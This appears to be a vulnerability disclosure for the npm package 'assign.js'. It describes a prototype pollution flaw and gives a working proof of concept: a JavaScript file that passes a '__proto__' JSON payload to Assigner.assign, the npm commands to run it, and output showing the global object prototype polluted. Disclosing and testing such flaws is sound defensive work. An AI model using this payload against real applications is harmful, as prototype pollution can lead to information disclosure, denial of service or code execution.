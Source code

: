 # Description

`assign.js` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var Assigner = require("assign.js")
var assigner = new Assigner()
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
assigner.assign(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i assign.js # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
